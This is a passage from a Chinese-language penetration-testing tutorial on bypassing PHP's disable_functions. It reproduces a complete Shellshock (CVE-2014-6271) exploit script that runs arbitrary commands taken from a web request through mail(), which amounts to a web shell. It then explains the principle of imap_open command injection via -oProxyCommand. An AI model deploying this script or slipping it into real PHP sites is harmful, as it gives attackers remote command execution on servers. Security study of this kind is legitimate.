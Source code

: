 同样，我们搜索一下 php 的源码，可以发现，明里调用 popen 派生进程的 php函数还有 imap_mail，如果你仅仅通过禁用 mail 函数来规避这个安全问题，那么 imap_mail 是可以做替代的。当然，php 里还可能有其他地方有调用 popen 或其他能够派生 bash 子进程的函数，通过这些地方，都可以通过破壳漏洞执行命令的。简单的禁用 mail() 函数，在上述情况中是不能抵御 bypass disable_functions 的。

exp:

```php
?php 
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions) 
# Google Dork: none 
# Date: 10/31/2014 
# Exploit Author: Ryan King (Starfall) 
# Vendor Homepage: http://php.net 
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror 
# Version: 5.* (tested on 5.6.2) 
# Tested on: Debian 7 and CentOS 5 and 6 
# CVE: CVE-2014-6271 

function shellshock($cmd) { // Execute a command via CVE-2014-6271 @mail.c:283 
   $tmp = tempnam(".","data"); 
   putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1"); 
   // In Safe Mode, the user may only alter environment variableswhose names 
   // begin with the prefixes supplied by this directive. 
   // By default, users will only be able to set environment variablesthat 
   // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive isempty, 
   // PHP will let the user modify ANY environment variable! 
   mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actuallysend any mail 
   $output = @file_get_contents($tmp); 
   @unlink($tmp); 
   if($output != "") return $output; 
   else return "No output, or not vuln."; 
} 
echo shellshock($_REQUEST["cmd"]); 
?>
```

## 0x06 imap_open()

Require:

1. 安装 PHP 的 imap 扩展：`apt-get install php-imap`。

2. 在 php.ini 中开启 `imap.enable_insecure_rsh = On`。


**基本原理**：

PHP 的 imap_open 函数中的漏洞可能允许经过身份验证的远程攻击者在目标系统上执行任意命令。该漏洞的存在是因为受影响的软件的 imap_open 函数在将邮箱名称传递给rsh 或 ssh 命令之前不正确地过滤邮箱名称。如果启用了 rsh 和 ssh 功能并且 rsh 命令是 ssh 命令的符号链接，则攻击者可以通过向目标系统发送包含`-oProxyCommand` 参数的恶意 IMAP 服务器名称来利用此漏洞。成功的攻击可能允许攻击者绕过其他禁用的 exec 受影响软件中的功能，攻击者可利用这些功能在目标系统上执行任意 shell 命令。利用此漏洞的功能代码是 Metasploit Framework 的一部分。

imap_open() 函数会调用到 rsh 的程序，而该程序中会调用 execve 系统调用来实现 rsh 的调用，其中的邮件地址参数是由 imap_open() 函数的 mailbox 参数传入，同时，由于 rsh 命令是 ssh 命令的符号链接，所以当我们利用 ssh 的 `-oProxyCommand` 参数来构造恶意 mailbox 参数时就能执行恶意命令。
